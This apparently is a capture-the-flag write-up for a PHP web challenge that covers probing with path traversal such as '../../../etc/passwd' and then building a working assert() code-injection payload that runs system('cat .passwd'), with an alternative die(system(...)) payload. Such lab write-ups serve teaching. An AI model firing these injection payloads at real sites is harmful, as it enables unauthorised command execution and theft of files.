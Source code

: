 ## Description
Find and exploit the vulnerability to read the file .passwd.
## Hints 
Read the doc!
## Solution
This is the website of the challenge:

![image](https://github.com/user-attachments/assets/5ce8b071-a539-4d89-8452-af1c93b3e206)
Based on the challenge's title and the hint, I should use Local File Inclusion (LFI) to solve it.

Looking at the website url, I tested several payloads but didn't get the flag directly. For instance, I tried:

`?page=../../../etc/passwd`

![image](https://github.com/user-attachments/assets/64637211-1f72-4795-9369-aec7645bb6b1)
`?page='`

![image](https://github.com/user-attachments/assets/919d39a3-a57d-46f4-a03f-6d466c25e56c)

So, the challenge is vunerable to code injection. I suppose the source code is something like this:

```
$file = "includes/" . $page . ".php";
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
if file_exists($file){
   include($file);}
```

One possible way to solve this is get the code to comply like this: 

assert(strpos('includes/random.php' , 'nothing')  === false || system("cat .passwd") || strpos('includes/a', '..') === false");

So the payload is: `random' , 'nothing')  === false %26%26 system("cat .passwd") %26%26 strpos('includes/a`

There are many other ways to get the flag, my first attempt to solve this is to using: `' and die(system('cat .passwd')) or '`
  
